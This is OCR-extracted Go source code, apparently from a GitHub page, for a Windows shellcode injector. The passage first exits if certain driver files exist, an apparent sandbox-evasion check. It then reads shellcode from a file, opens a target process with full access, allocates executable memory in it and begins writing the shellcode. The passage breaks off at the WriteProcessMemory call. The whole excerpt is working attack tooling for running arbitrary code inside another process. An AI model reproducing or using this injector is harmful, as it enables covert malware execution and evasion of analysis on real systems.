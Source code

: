 ```go
  for _, d := range drivers { // Iterate over all drivers to check if they exist
    _, err = os.Stat(d)
    if (os.IsNotExist(err) == false) {
      os.Exit(0)
    }
  }

  pid := os.Args[1]
  shellcode_file := os.Args[2]

  fmt.Println("Process ID: " + pid)
  fmt.Println("Shellcode file: " + shellcode_file)

  // Convert CLI argument to int
  pid_int, _ := strconv.Atoi(pid)

  // Open given path
  f, err := os.Open(shellcode_file)
  if err != nil {
    log.Fatal(err)
  }
  defer f.Close()

  // Get content as bytes
  shellcode, err := ioutil.ReadAll(f)
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("Loading DLLs and functions...")
  OpenProcess := kernel32.NewProc("OpenProcess")
  VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
  CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")
  CloseHandle := kernel32.NewProc("CloseHandle")

  fmt.Println("Calling OpenProcess...")
  procHandle, _, _ := OpenProcess.Call(
    uintptr(0x1F0FFF), // Access to the process
    uintptr(0), // FALSE
    uintptr(pid_int), // Process to open
  )

  if procHandle == 0 {
    fmt.Println("An error has ocurred calling OpenProcess")
    os.Exit(0)
  }

  addr, _, _ := VirtualAllocEx.Call(
    uintptr(procHandle),
    0,
    uintptr(len(shellcode)),
    windows.MEM_COMMIT | windows.MEM_RESERVE,
    windows.PAGE_EXECUTE_READWRITE,
  )

  if (addr == 0) {
    fmt.Println("An error has ocurred")
    os.Exit(0)
  }

  WriteProcessMemory.Call(
    uintptr(procHandle),
```